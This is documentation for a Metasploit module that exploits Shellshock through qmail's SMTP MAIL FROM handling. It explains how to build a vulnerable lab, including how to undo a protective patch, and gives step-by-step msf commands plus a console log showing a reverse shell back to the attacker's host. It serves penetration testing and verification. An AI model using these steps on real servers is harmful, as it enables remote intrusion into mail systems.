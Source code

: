 ## Vulnerable Application

Any qmail version (works on latest versions, qmail-1.03 and netqmail-1.06) running on a system with a vulnerable BASH (Shellshock). In order to execute code, /bin/sh has to be linked to bash (usually default configuration) and a valid recipient must be set on the RCPT TO field (usually admin@exampledomain.com). The exploit does not work on the "qmailrocks" community version as it ensures the MAILFROM field is well-formed.

## Setting up a vulnerable environment

Install Qmail on a Linux server with a shellshock vulnerable bash. Ensure that /bin/sh is linked to bash. Create an e-mail account on that qmail server. IMPORTANT: there is a community version of qmail, "qmailrocks" (http://qmailrocks.thibs.com/) which apply a patch that checks the vulnerable MAILFROM parameter. This version (with the patch applied) is NOT vulnerable. If you are using this version, change the "int mfcheck()" function on qmail-smtpd.c and ensure it returns always 0 (after applying the patch) and re-compile qmail-smtpd.

## Verification Steps

  1. `use exploit/unix/smtp/qmail_bash_env_exec`
  2. `set RHOST <target IP>`
  3. `set MAILTO <valid e-mail recipient>`
  4. `set payload cmd/unix/reverse`
  5. `set LHOST <local IP>`
  7. optionally set `RPORT` and `LPORT`
  8. `exploit`
  9. **Verify** a new shell session is started
  
## Options

**MAILTO**

A valid e-mail recipient. Usually, admin@targetdomain.com can be used.

## Scenarios
**Tested on qmail-1.03 on Debian 6.0.6 (squeeze). BASH version 4.1.5(1).**

```
msf > use exploit/unix/smtp/qmail_bash_env_exec 
msf exploit(qmail_bash_env_exec) > set rhost 192.168.1.113
rhost => 192.168.1.113
msf exploit(qmail_bash_env_exec) > set mailto "admin@testqmail2.test"
mailto => admin@testqmail2.test
msf exploit(qmail_bash_env_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(qmail_bash_env_exec) > show options 

Module options (exploit/unix/smtp/qmail_bash_env_exec):

   Name    Current Setting        Required  Description
   ----    ---------------        --------  -----------
   MAILTO  admin@testqmail2.test  yes       TO address of the e-mail
   RHOST   192.168.1.113          yes       The target address
   RPORT   25                     yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.102    yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(qmail_bash_env_exec) > run

[*] Started reverse TCP double handler on 192.168.1.102:4444 
[*] 192.168.1.113:25 - Sending the payload...
[*] 192.168.1.113:25 - Sending RCPT TO admin@testqmail2.test
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo RvZfov9i2ZuveLXA;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "RvZfov9i2ZuveLXA\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 19 opened (192.168.1.102:4444 -> 192.168.1.113:48167) at 2017-05-04 15:11:02 +0200

whoami
vpopmail
```

